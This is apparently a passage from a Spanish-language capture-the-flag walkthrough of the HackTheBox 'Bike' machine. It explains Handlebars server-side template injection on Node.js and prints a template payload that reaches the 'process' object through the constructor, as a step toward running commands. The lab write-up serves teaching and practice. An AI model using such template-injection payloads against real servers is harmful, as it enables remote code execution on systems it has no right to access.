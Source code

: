   <img src="/assets/images/StartingPoint/VIP/Bike/ssti3.png" alt="under" oncontextmenu="return false;">
</div>

Y vemos que hay un error en la linea 19 de la respuesta de Caido. Eso es porque Node.js trabaja con unas globales https://nodejs.org/api/globals.html. Pero que algunas funciones parecen ser también globales y son:

```js
__dirname
__filename
exports
module
require()
```

El problema es que necesitamos `require()` para poder ejecutar comandos pero, no es una función global. Podemos tratar a llamar una variable `process` para tener más información usando el código JavaScript:

```js
{ {#with "s" as |string|}}
{ {#with "e"}}
{ {#with split as |conslist|}}
{ {this.pop}}
{ {this.push (lookup string.sub "constructor")}}
{ {this.pop}}
{ {#with string.split as |codelist|}}
{ {this.pop}}
{ {this.push "return process;"}} -->>>> process
{ {this.pop}}
{ {#each conslist}}
{ {#with (string.sub.apply 0 codelist)}}
{ {this}}
{ {/with}}
{ {/each}}
{ {/with}}
```